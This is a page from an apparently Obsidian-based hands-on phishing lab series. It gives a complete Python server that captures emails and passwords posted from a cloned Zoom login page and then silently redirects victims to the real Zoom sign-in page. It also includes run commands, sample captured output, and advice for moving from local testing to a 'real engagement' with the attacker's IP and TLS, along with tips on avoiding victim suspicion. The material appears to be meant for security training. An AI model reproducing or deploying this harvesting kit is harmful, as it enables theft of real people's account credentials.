

---
tags:
  - phishing
  - credential-harvesting
  - hands-on-lab
  - phase/initial-access
---

# Capturing credentials

> [!tip] Quick Reference
> | Component | Command | Port |
> |-----------|---------|------|
> | Cloned login page | `sudo python3 -m http.server 80` | 80 |
> | Credential capture server | `python3 cred_server.py` | 8080 |

## Visual Flow



## Building the capture server

The password form from [[Cleaning up the clone]] already POSTs to `http://127.0.0.1:8080/creds`. This is the listener that receives it:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        raw = self.rfile.read(length).decode()
        print(f'\n[+] Raw data: {raw}')
        data = parse_qs(raw)
        email = data.get('email', [''])[0]
        password = data.get('password', [''])[0]
        print(f'[+] Captured credentials!')
        print(f'    Email:    {email}')
        print(f'    Password: {password}\n')
        self.send_response(302)
        self.send_header('Location', 'https://zoom.us/signin')
        self.end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()

HTTPServer(('0.0.0.0', 8080), Handler).serve_forever()
```

**Key behavior:** on `POST`, it parses the form data, prints the email/password to the terminal, then sends a **302 redirect to the real Zoom sign-in page**. The victim experiences this as a normal failed login attempt — nothing about the redirect looks suspicious, so they're likely to just try again (giving another capture opportunity) or move on without ever suspecting a phish.

## Running the full chain

```bash
# Terminal 1 — the credential listener
python3 cred_server.py

# Terminal 2 — serve the cloned page
sudo python3 -m http.server 80
```

Browse to `http://127.0.0.1/signin.html`, enter test credentials, and submit. After the redirect back to the real Zoom page, the capture server's terminal shows:

```
[+] Raw data: email=test%40test.com&password=test123
[+] Captured credentials!
    Email:    test@test.com
    Password: test123
```

> [!warning] Before a real engagement
> Replace **every** instance of `127.0.0.1` — both in the password form's `action` (inside the modification script from [[Cleaning up the clone]]) and wherever the credential server is reached from — with your actual Kali machine's reachable IP address. Nothing in this chain works outside local testing until that's done.

> [!success] What success looks like
> The victim is redirected seamlessly to the real site after "failing" to log in, with zero visible sign anything unusual happened — and the credential server terminal shows a clean, correctly parsed email/password pair.

> [!danger] Common pitfalls
> - Forgetting to swap `127.0.0.1` for the real attacker IP — the single most common deployment mistake in this whole chain.
> - Redirecting to anything *other than* the real login page after capture (an error page, a blank page) — that's exactly the kind of visible inconsistency that raises suspicion, per [[Enhancing phishing through social engineering]].
> - Running the credential server without TLS in a real engagement — an insecure POST target is both a technical and a "quality" tell, per [[Recognize malicious links]].

> [!tip] Beginner note
> The redirect-to-real-site trick matters psychologically as much as technically: from the victim's point of view, this looks exactly like a normal typo'd password, not an attack. That's what keeps them from getting suspicious immediately.

## Resources
- [Python `http.server` docs](https://docs.python.org/3/library/http.server.html)

---
%% graph-links %%
## Related
- [[Cleaning up the clone]]
- [[Crafting the phishing email]]
- [[Differentiate credential phishing and MFA]]
- [[Recognize malicious links]]

> [!info] Navigation
> Section: [[Phishing Basics/Hands-on credential phishing/_index|Hands-on credential phishing]] · Home: [[🏠 Home]]
